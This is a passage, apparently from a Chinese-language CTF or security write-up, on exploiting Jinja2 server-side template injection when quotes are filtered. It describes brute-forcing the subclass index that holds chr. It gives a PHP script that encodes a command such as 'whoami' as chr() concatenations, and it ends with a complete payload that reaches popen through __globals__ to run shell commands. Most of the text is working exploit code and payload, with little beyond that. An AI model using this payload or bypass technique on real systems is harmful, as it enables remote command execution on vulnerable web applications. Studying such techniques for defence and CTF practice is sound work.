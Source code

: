 这里先爆破`subclasses`，获取`subclasses`中含有chr的类索引

![img](https://gitee.com/eviden/img/raw/master/202406141122829.png)

然后就可以用chr来绕过传参时所需要的引号，然后需要用chr来构造需要的字符

这里我写了个脚本可以快速构造想要的ascii字符

```go
<?php



$a = 'whoami';



$result = '';



for($i=0;$i<strlen($a);$i++)



{



 $result .= 'chr('.ord($a[$i]).')%2b';



}



echo substr($result,0,-3);



?>



//chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)
```

最后payload如下

```go
{% set chr = ().__class__.__base__.__subclasses__()[7].__init__.__globals__.__builtins__.chr %}{{().__class__.__base__.__subclasses__()[257].__init__.__globals__.popen(chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)).read()}}
```
